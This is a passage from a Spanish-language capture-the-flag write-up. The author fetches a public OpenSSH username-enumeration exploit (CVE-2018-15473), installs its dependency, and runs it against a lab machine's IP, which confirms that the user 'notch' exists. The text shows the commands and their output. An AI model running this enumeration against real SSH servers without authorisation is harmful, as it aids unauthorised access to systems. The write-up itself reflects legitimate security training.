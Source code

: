 <h3 id="PruebaExp">Probando Exploit: OpenSSH < 7.7 - Username Enumeration (2)</h3>

```bash
searchsploit -m linux/remote/45939.py
  Exploit: OpenSSH < 7.7 - Username Enumeration (2)
      URL: https://www.exploit-db.com/exploits/45939
     Path: /usr/share/exploitdb/exploits/linux/remote/45939.py
    Codes: CVE-2018-15473
 Verified: False
File Type: Python script, ASCII text executable
```

Bien, analizándolo un poco, veo mucho que ocupa la librería **Paramiko**, vamos a instalarla:
```bash
pip install paramiko      
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality
...
```

Listo, ahora probemos si nos da indicaciones sobre cómo usarlo, usaremos Python 2 porque con los otros no quiso correr:
```bash
python2 SSH_Exploit.py
/usr/local/lib/python2.7/dist-packages/paramiko/transport.py:33: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends import default_backend
usage: SSH_Exploit.py [-h] [-p PORT] target username

SSH User Enumeration by Leap Security (@LeapSecurity)

positional arguments:
  target                IP address of the target system
  username              Username to check for validity.

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Set port of SSH service
```
Ok, entonces hay que indicarle la IP de la máquina y el usuario, nos pide el puerto también, pero es opcional así que no lo pondré.

Usemos el Exploit:
```bash
python2 SSH_Exploit.py 10.10.10.37 notch   
/usr/local/lib/python2.7/dist-packages/paramiko/transport.py:33: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends import default_backend
[+] notch is a valid username
```
